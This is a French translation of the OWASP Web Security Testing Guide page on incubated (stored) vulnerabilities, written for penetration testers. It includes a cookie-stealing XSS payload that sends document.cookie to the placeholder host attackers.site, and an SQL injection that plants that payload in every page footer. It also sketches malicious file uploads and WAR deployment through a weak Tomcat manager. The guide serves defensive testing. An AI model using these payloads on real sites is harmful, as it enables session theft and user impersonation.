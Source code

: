 # Tester la vulnérabilité incubée

|ID          |
|------------|
|WSTG-INPV-14|

## Sommaire

Aussi souvent appelés attaques persistantes, les tests incubés sont une méthode de test complexe qui nécessite plus d'une vulnérabilité de validation des données pour fonctionner. Les vulnérabilités incubées sont généralement utilisées pour mener des attaques "point d'eau" contre les utilisateurs d'applications Web légitimes.

Les vulnérabilités incubées ont les caractéristiques suivantes :

- Le vecteur d'attaque doit être persistant en premier lieu, il doit être stocké dans la couche de persistance, et cela ne se produirait que si une validation de données faible était présente ou si les données arrivaient dans le système via un autre canal tel qu'une console d'administration ou directement via un traitement par lots backend.
- Deuxièmement, une fois que le vecteur d'attaque a été "rappelé", le vecteur doit être exécuté avec succès. Par exemple, une attaque XSS incubée nécessiterait une validation de sortie faible afin que le script soit livré au client sous sa forme exécutable.

L'exploitation de certaines vulnérabilités, ou même de fonctionnalités fonctionnelles d'une application Web, permettra à un attaquant d'implanter une donnée qui sera ensuite récupérée par un utilisateur ou un autre composant du système sans méfiance, exploitant une vulnérabilité à cet endroit.

Dans un test de pénétration, les "attaques incubées" peuvent être utilisées pour évaluer la criticité de certains bogues, en utilisant le problème de sécurité particulier trouvé pour créer une attaque côté client qui sera généralement utilisée pour cibler un grand nombre de victimes en même temps. (c'est-à-dire tous les utilisateurs naviguant sur le site).

Ce type d'attaque asynchrone couvre un large spectre de vecteurs d'attaque, parmi lesquels :

- Composants de téléchargement de fichiers dans une application Web, permettant à l'attaquant de télécharger des fichiers multimédias corrompus (images JPEG exploitant `CVE-2004-0200`, images PNG exploitant `CVE-2004-0597`, fichiers exécutables, pages de site avec composant actif, etc. .)
- Problèmes de script intersite dans les messages des forums publics (voir [Test pour le script intersite stocké](02-Testing_for_Stored_Cross_Site_Scripting.md) pour plus de détails). Un attaquant pourrait potentiellement stocker des scripts ou du code malveillants dans un référentiel dans le backend de l'application Web (par exemple, une base de données) afin que ce script/code soit exécuté par l'un des utilisateurs (utilisateurs finaux, administrateurs, etc.). L'archétype de l'attaque incubée est illustré par l'utilisation d'une vulnérabilité de script intersite dans un forum d'utilisateurs, un babillard ou un blog afin d'injecter du code JavaScript sur la page vulnérable, et sera finalement rendu et exécuté sur le navigateur de l'utilisateur du site -- en utilisant le niveau de confiance du site d'origine (vulnérable) sur le navigateur de l'utilisateur.
- Injection SQL/XPATH permettant à l'attaquant de télécharger du contenu dans une base de données, qui sera ensuite récupéré dans le cadre du contenu actif d'une page Web. Par exemple, si l'attaquant peut publier du code JavaScript arbitraire dans un tableau d'affichage afin qu'il soit exécuté par les utilisateurs, il peut alors prendre le contrôle de leurs navigateurs (par exemple, [XSS-proxy](http://sourceforge.net/projects/xss -Procuration)).
- Serveurs mal configurés permettant l'installation de packages Java ou de composants de site Web similaires (c'est-à-dire Tomcat ou des consoles d'hébergement Web telles que Plesk, CPanel, Helm, etc.)

## Objectifs des tests

- Identifier les injections qui sont stockées et nécessitent une étape de rappel à l'injection stockée.
- Comprendre comment une étape de rappel peut se produire.
- Réglez les écouteurs ou activez l'étape de rappel si possible.

## Comment tester

### Test de la boîte noire

#### Exemple de téléchargement de fichier

Vérifiez le type de contenu autorisé à télécharger sur l'application Web et l'URL résultante pour le fichier téléchargé. Téléchargez un fichier qui exploitera un composant dans le poste de travail de l'utilisateur local lorsqu'il sera visualisé ou téléchargé par l'utilisateur. Envoyez à votre victime un e-mail ou une autre sorte d'alerte afin de l'amener à parcourir la page. Le résultat attendu est que l'exploit sera déclenché lorsque l'utilisateur navigue sur la page résultante ou télécharge et exécute le fichier à partir du site de confiance.

#### Exemple XSS sur un tableau d'affichage

1. Entrez le code JavaScript comme valeur pour le champ vulnérable, par exemple `<script>document.write('<img src="http://attackers.site/cv.jpg?'+document.cookie+'">' )</script>`
2. Demandez aux utilisateurs de parcourir la page vulnérable ou attendez que les utilisateurs la parcourent. Avoir un "auditeur" sur l'hôte `attackers.site` à l'écoute de toutes les connexions entrantes.
3. Lorsque les utilisateurs naviguent sur la page vulnérable, une requête contenant leur cookie (`document.cookie` est inclus dans l'URL demandée) sera envoyée à l'hôte `attackers.site`, par exemple : `GET /cv.jpg ?SignOn=COOKIEVALUE1 ; %20ASPSESSIONID=ROGUEIDVALUE ; HTTP/1.1`
4. Utilisez les cookies obtenus pour usurper l'identité des utilisateurs du site vulnérable.

#### Exemple d'injection SQL

Habituellement, cet ensemble d'exemples exploite les attaques XSS en exploitant une vulnérabilité d'injection SQL. La première chose à tester est de savoir si le site cible présente une vulnérabilité d'injection SQL. Ceci est décrit dans [Testing for SQL Injection](05-Testing_for_SQL_Injection.md). Pour chaque vulnérabilité d'injection SQL, il existe un ensemble sous-jacent de contraintes décrivant le type de requêtes que l'attaquant/pentesteur est autorisé à effectuer.

Le testeur doit ensuite faire correspondre les attaques XSS qu'il a conçues avec les entrées qu'il est autorisé à insérer.

De la même manière que dans l'exemple XSS précédent, utilisez un champ de page Web vulnérable aux problèmes d'injection SQL pour modifier une valeur dans la base de données qui serait utilisée par l'application comme entrée à afficher sur le site sans filtrage approprié (ce serait une combinaison d'une injection SQL et d'un problème XSS). Par exemple, supposons qu'il y ait une table `footer` dans la base de données avec tous les pieds de page des pages du site Web, y compris un champ `notice` avec la mention légale qui apparaît au bas de chaque page Web. Vous pouvez utiliser la requête suivante pour injecter du code JavaScript dans le champ "notice" de la table "footer" de la base de données.

```sql
SELECT field1, field2, field3
FROM table_x
WHERE field2 = 'x';
   UPDATE footer
   SET notice = 'Copyright 1999-2030%20
       <script>document.write(\'<img src="http://attackers.site/cv.jpg?\'+document.cookie+\'">\')</script>'
   WHERE notice = 'Copyright 1999-2030';
```

Désormais, chaque utilisateur naviguant sur le site enverra silencieusement ses cookies au `attaquants.site`.

#### Serveur mal configuré

Certains serveurs web présentent une interface d'administration qui peut permettre à un attaquant d'uploader sur le site des composants actifs de son choix. Cela pourrait être le cas avec un serveur Apache Tomcat qui n'impose pas d'informations d'identification fortes pour accéder à son gestionnaire d'applications Web (ou si les testeurs de stylo ont pu obtenir des informations d'identification valides pour le module d'administration par d'autres moyens).

Dans ce cas, un fichier WAR peut être téléchargé et une nouvelle application Web déployée sur le site, ce qui permettra non seulement au testeur d'intrusion d'exécuter le code de son choix localement sur le serveur, mais également de planter une application sur le site de confiance, auxquels les utilisateurs réguliers du site peuvent alors accéder (très probablement avec un degré de confiance plus élevé que lorsqu'ils accèdent à un autre site).

Comme cela devrait également être évident, la possibilité de modifier le contenu de la page Web sur le serveur, via toutes les vulnérabilités pouvant être exploitées sur l'hôte qui donneront à l'attaquant des autorisations d'écriture webroot, sera également utile pour lancer une telle attaque incubée sur le serveur Web. pages (en fait, il s'agit d'une méthode de propagation d'infection connue pour certains vers de serveur Web).

### Test de la boîte grise

Les techniques de test en boîte grise ou en boîte blanche seront les mêmes que celles décrites précédemment.

- L'examen de la validation des entrées est essentiel pour atténuer cette vulnérabilité. Si d'autres systèmes de l'entreprise utilisent la même couche de persistance, leur validation des entrées peut être faible et les données peuvent être conservées via une "porte dérobée".
- Pour lutter contre le problème de "porte dérobée" pour les attaques côté client, la validation de sortie doit également être utilisée afin que les données entachées soient encodées avant d'être affichées sur le client, et donc pas exécutées.

## Outils

- [XSS-proxy](https://sourceforge.net/projects/xss-proxy)
- [Proxy d'attaque Zed OWASP (ZAP)] (https://www.zaproxy.org/)
- [Burp Suite] (https://portswigger.net/burp)
- [Metasploit](https://www.metasploit.com/)

## Références

La plupart des références de la section Cross-site scripting sont valides. Comme expliqué ci-dessus, les attaques incubées sont exécutées lors de la combinaison d'exploits tels que XSS ou des attaques par injection SQL.

### Avis

- [Avis CERT CA-2000-02 Balises HTML malveillantes intégrées dans les requêtes Web des clients] (https://resources.sei.cmu.edu/library/asset-view.cfm?assetID=496186)
- [Blackboard Academic Suite 6.2.23 +/- : vulnérabilité de script intersite persistante](https://cxsecurity.com/issue/WLB-2006080004)

### Papiers blanc

- [Consortium de sécurité des applications Web "Classification des menaces, script intersite"](http://www.webappsec.org/projects/threat/classes/cross-site_scripting.shtml)
